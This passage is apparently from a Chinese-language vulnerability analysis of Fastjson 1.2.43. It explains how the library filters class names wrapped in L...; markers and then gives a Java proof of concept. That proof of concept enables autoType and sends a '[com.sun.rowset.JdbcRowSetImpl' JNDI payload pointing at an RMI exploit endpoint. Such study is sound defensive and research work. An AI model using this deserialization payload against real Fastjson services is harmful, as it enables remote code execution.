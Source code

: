 # 1.2.43

com/alibaba/fastjson/parser/ParserConfig.java:902![image-20210813175356938](Fastjson2/image-20210813175356938.png)

> 先判断类名是否符合 L----; 形式（ LL-----;; 以及多次重复也判断符合），若符合，则进⼀步精确判
>
> 断类名是否为 LL-----;; 形式：
>
> 符合，就直接抛出异常，这⾥就过滤了两次及以上的开头和结尾的攻击类名。
>
> 不符合，处理同上版本，删除开头和结尾的字符得到类名，传⼊⿊名单判断。
>
> 后续的处理和前⾯版本基本相似。

## POC

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class POC {
 public static void main(String[] args) {
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{
\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}";
 JSON.parse(PoC);
 }
}
```

## 补丁绕过
